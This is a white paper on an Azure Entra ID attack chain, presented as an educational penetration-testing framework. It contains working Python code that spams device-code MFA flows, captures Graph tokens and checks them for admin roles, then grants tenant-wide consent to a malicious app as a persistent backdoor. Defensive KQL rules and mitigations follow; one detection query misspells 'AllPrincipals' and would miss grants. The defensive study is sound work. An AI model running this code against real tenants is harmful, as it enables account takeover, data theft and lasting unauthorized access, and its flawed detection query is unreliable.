

# White Paper: Azure Identity Attack - Demonstrating MFA Fatigue, Token Hijacking, and Admin Consent Abuse

## Abstract

**Author:** ek0ms savi0r

**Date:** Nov 2025

**Background:** Cloud identity attacks represent one of the most critical security threats in modern enterprise environments. 
Microsoft Azure Entra ID (formerly Azure AD) provides robust security features, including Multi-Factor Authentication (MFA), yet sophisticated attack vectors continue to emerge that bypass these protections through human factors and permission abuse.

**Objective:** This research presents a modular Python framework designed to demonstrate a sophisticated attack chain combining MFA fatigue, token hijacking, and admin consent abuse. The tool serves educational purposes and authorized security testing to help organizations understand and defend against these evolving threats.

**Methodology:** The framework implements three distinct modules that chain together to create a persistent attack vector:
1. **MFA Fatigue Module:** Leverages OAuth 2.0 device code flows to generate multiple concurrent MFA prompts
2. **Token Hijacking Module:** Captures and validates Graph API tokens upon user approval
3. **Admin Consent Abuse Module:** Exploits privileged access to establish persistent backdoors

**Key Findings:** The research demonstrates that despite MFA enforcement, determined attackers can leverage human factors and permission gaps to establish persistent access. Critical vulnerabilities include:
- MFA prompt spam leading to accidental approvals
- Excessive delegated permissions enabling privilege escalation
- Admin consent grants creating persistent access vectors

**Conclusion:** This framework highlights critical defensive gaps in Azure environments and emphasizes the need for comprehensive security controls, including Conditional Access policies, phishing-resistant authentication, and rigorous application permission monitoring.

---

## 1. Introduction

### 1.1 The Evolving Cloud Threat Landscape

As organizations rapidly adopt cloud services, identity has become the new perimeter. Microsoft Azure Entra ID serves as the identity backbone for millions of organizations, making it a prime target for attackers. While MFA provides significant protection against credential-based attacks, sophisticated adversaries have developed techniques to bypass these controls through social engineering and permission abuse.

### 1.2 Research Objectives

This white paper details the development of a modular educational tool that demonstrates:
- Technical implementation of MFA fatigue attacks
- Token capture and validation mechanisms
- Admin consent grant abuse for persistence
- Defensive recommendations and detection strategies

*Table 1: Attack Framework Components*
| **Module** | **Technique** | **Purpose** | **Dependencies** |
|------------|---------------|-------------|------------------|
| MFA Fatigue | OAuth 2.0 Device Code Flow | Induce prompt fatigue | Multi-tenant app registration |
| Token Hijacking | Access Token Capture | Gain Graph API access | Successful MFA approval |
| Admin Consent Abuse | OAuth2PermissionGrants API | Establish persistence | Global Admin privileges |

---

## 2. Technical Architecture

### 2.1 Attack Flow Overview

The attack follows a sequential chain where each module's success enables the next phase:



### 2.2 Module 1: MFA Fatigue Implementation

#### 2.2.1 Technical Approach
The MFA fatigue module leverages the OAuth 2.0 device code flow to generate multiple authentication requests. Unlike traditional credential attacks, this approach targets the MFA approval mechanism directly.

*Table 2: MFA Fatigue Technical Specifications*
| **Component** | **Implementation** | **Rationale** |
|---------------|-------------------|---------------|
| Authentication Flow | OAuth 2.0 Device Code | Triggers MFA without passwords |
| Concurrency | Multi-threaded execution | Simultaneous prompt generation |
| App Registration | Multi-tenant Azure AD app | Cross-tenant compatibility |
| Scopes Requested | User.Read, Directory.AccessAsUser.All | Privilege escalation preparation |

#### 2.2.2 Code Implementation
```python
import msal
import threading
import time

class MFATrigger:
    def __init__(self, client_id, scopes):
        self.client_id = client_id
        self.scopes = scopes
        self.token = None
        self._lock = threading.Lock()

    def _run_device_flow(self):
        app = msal.PublicClientApplication(self.client_id)
        flow = app.initiate_device_flow(scopes=self.scopes)
        
        if "user_code" not in flow:
            print("Failed to create device flow")
            return

        print(f"MFA Prompt: {flow['message']}")
        
        # Wait for user approval with timeout
        result = app.acquire_token_by_device_flow(flow, timeout=600)
        
        with self._lock:
            if result and "access_token" in result and self.token is None:
                self.token = result
                print("Token acquired successfully!")

    def trigger_mfa_fatigue(self, num_attempts=5):
        threads = []
        for i in range(num_attempts):
            t = threading.Thread(target=self._run_device_flow)
            threads.append(t)
            t.start()
            time.sleep(2)  # Stagger attempts
            
        for t in threads:
            t.join()
            
        return self.token
```

### 2.3 Module 2: Token Hijacking and Validation

#### 2.3.1 Token Analysis
Upon successful MFA approval, the framework captures and validates the access token, focusing on scopes and privileges assessment.

*Table 3: Token Analysis Components*
| **Token Element** | **Purpose** | **Validation Method** |
|-------------------|-------------|----------------------|
| Access Token | API Authorization | HTTP Bearer token |
| Refresh Token | Long-term access | Token refresh flows |
| Scopes | Permission assessment | JWT token parsing |
| User Roles | Privilege evaluation | Graph API queries |

#### 2.3.2 Privilege Assessment
```python
import requests
import jwt

class TokenHandler:
    def __init__(self, token):
        self.token = token
        self.headers = {'Authorization': f'Bearer {token}'}
    
    def analyze_token(self):
        # Decode JWT without verification to examine claims
        decoded = jwt.decode(self.token, options={"verify_signature": False})
        return {
            'scopes': decoded.get('scp', '').split(),
            'username': decoded.get('upn', ''),
            'roles': decoded.get('roles', [])
        }
    
    def check_user_roles(self):
        me_url = "https://graph.microsoft.com/v1.0/me"
        resp = requests.get(me_url, headers=self.headers)
        
        if resp.status_code != 200:
            return False
            
        user_data = resp.json()
        user_id = user_data['id']
        
        # Check directory role membership
        roles_url = f"https://graph.microsoft.com/v1.0/users/{user_id}/memberOf"
        resp = requests.get(roles_url, headers=self.headers)
        
        if resp.status_code != 200:
            return False
            
        roles = resp.json().get('value', [])
        admin_roles = ['Global Administrator', 'Company Administrator', 
                      'Privileged Role Administrator']
        
        for role in roles:
            if role.get('displayName') in admin_roles:
                return True
        return False
```

### 2.4 Module 3: Admin Consent Abuse

#### 2.4.1 Persistence Mechanism
The admin consent abuse module establishes persistent access by granting permissions to a malicious application, creating a backdoor that survives credential changes and MFA resets.

*Table 4: Admin Consent Grant Parameters*
| **Parameter** | **Value** | **Purpose** |
|---------------|-----------|-------------|
| clientId | Malicious App ID | Target application |
| consentType | AllPrincipals | Tenant-wide consent |
| resourceId | Microsoft Graph SP | Target resource |
| scope | Mail.Read, Files.ReadWrite.All | Data access permissions |

#### 2.4.2 Consent Grant Implementation
```python
class AdminConsentAbuser:
    def __init__(self, token):
        self.headers = {'Authorization': f'Bearer {token}'}
    
    def grant_admin_consent(self, malicious_app_client_id, permissions):
        # Get Microsoft Graph service principal
        graph_app_id = "00000003-0000-0000-c000-000000000000"
        sp_url = f"https://graph.microsoft.com/v1.0/servicePrincipals?$filter=appId eq '{graph_app_id}'"
        
        resp = requests.get(sp_url, headers=self.headers)
        if resp.status_code != 200:
            return False
            
        service_principals = resp.json().get('value', [])
        if not service_principals:
            return False
            
        resource_id = service_principals[0]['id']
        
        # Create OAuth2 permission grant
        grant_url = "https://graph.microsoft.com/v1.0/oauth2PermissionGrants"
        grant_data = {
            "clientId": malicious_app_client_id,
            "consentType": "AllPrincipals",
            "principalId": None,
            "resourceId": resource_id,
            "scope": permissions
        }
        
        resp = requests.post(grant_url, headers=self.headers, json=grant_data)
        return resp.status_code == 201
```

---

## 3. Attack Scenarios and Impact Analysis

### 3.1 Scenario 1: Privileged User Compromise

**Preconditions:**
- Target has MFA enabled
- User has Global Administrator role
- Conditional Access allows device code flow

**Impact:**
- Full tenant compromise
- Data exfiltration capabilities
- Persistent backdoor establishment

### 3.2 Scenario 2: Standard User with Privilege Escalation

**Preconditions:**
- Standard user with limited privileges
- Ability to social engineer admin users
- Lack of application permission monitoring

**Impact:**
- Limited initial access with privilege escalation potential
- Requires secondary social engineering

*Table 5: Attack Success Factors*
| **Factor** | **High Impact** | **Medium Impact** | **Low Impact** |
|------------|-----------------|-------------------|----------------|
| User Privilege | Global Admin | User Admin | Standard User |
| MFA Method | Push Notification | Phone Call | Hardware Token |
| User Awareness | Low | Medium | High |
| Monitoring | None | Basic | Advanced |

---

## 4. Defensive Recommendations

### 4.1 Prevention Strategies

#### 4.1.1 MFA Fatigue Mitigation
- **Implement Number Matching**: Require users to enter numbers displayed during authentication
- **Configure MFA Timeouts**: Set appropriate authentication session durations
- **Use Phishing-Resistant MFA**: Implement FIDO2 security keys or Windows Hello for Business

#### 4.1.2 Application Control
- **Restrict Device Code Flow**: Use Conditional Access to limit device code authentication
- **Monitor Application Consents**: Implement automated monitoring of admin consent grants
- **Require Approval for New Applications**: Establish application governance policies

### 4.2 Detection Strategies

#### 4.2.1 Azure Sentinel Detection Rules
```kql
// Detect multiple device code flow attempts
SigninLogs
| where AppDisplayName has "Device Code"
| where TimeGenerated >= ago(1h)
| summarize AttemptCount = count() by UserPrincipalName, IPAddress
| where AttemptCount > 3
```

#### 4.2.2 Admin Consent Monitoring
```kql
// Monitor admin consent grants
AuditLogs
| where OperationName == "Consent to application"
| where Result == "success"
| extend ConsentType = tostring(parse_json(tostring(parse_json(tostring(TargetResources[0].ModifiedProperties))[2].NewValue)))
| where ConsentType == "AllPrinciples"
```

### 4.3 Security Hardening

*Table 6: Security Control Recommendations*
| **Control Category** | **Specific Recommendation** | **Impact Level** |
|---------------------|----------------------------|------------------|
| MFA Configuration | Require number matching | High |
| Conditional Access | Block legacy authentication | High |
| Application Governance | Require admin consent for all apps | High |
| Monitoring | Alert on suspicious consent grants | Medium |
| User Training | MFA best practices education | Medium |

---

## 5. Ethical Considerations and Responsible Use

### 5.1 Authorization Requirements
This framework is designed exclusively for:
- Authorized penetration testing with explicit written consent
- Security research in isolated lab environments
- Educational demonstrations in academic settings

### 5.2 Compliance Considerations
Users must ensure compliance with:
- Computer Fraud and Abuse Act (CFAA)
- Local computer crime legislation
- Organizational security policies
- Cloud service terms of service

### 5.3 Responsible Disclosure
Researchers discovering vulnerabilities should follow:
- Microsoft Security Response Center (MSRC) guidelines
- Coordinated vulnerability disclosure processes
- Respect for privacy and data protection laws

---

## 6. Conclusion

This research demonstrates the critical importance of defense-in-depth strategies for Azure Entra ID environments. While MFA provides essential protection, determined attackers can leverage human factors and permission gaps to establish persistent access. The modular framework presented serves as an educational tool to help security professionals understand, detect, and prevent these sophisticated attack vectors.

Organizations must implement comprehensive security controls including Conditional Access policies, application governance, and continuous monitoring to protect against identity-based attacks. Future research should focus on automated detection of MFA fatigue attempts and enhanced user awareness training to combat social engineering techniques.

## References

1. Microsoft Security Response Center (2023). "Best Practices for Secure Azure AD Implementation"
2. NIST Special Publication 800-63B (2023). "Digital Identity Guidelines"
3. Cloud Security Alliance (2023). "Enterprise Identity Protection Framework"
4. MITRE ATT&CK Framework. "Technique T1111: Multi-Factor Authentication Interception"

---

**Disclaimer:** This research is intended for educational and authorized testing purposes only. Unauthorized use of these techniques against systems without explicit permission is illegal and unethical. Always obtain proper authorization before conducting security testing.
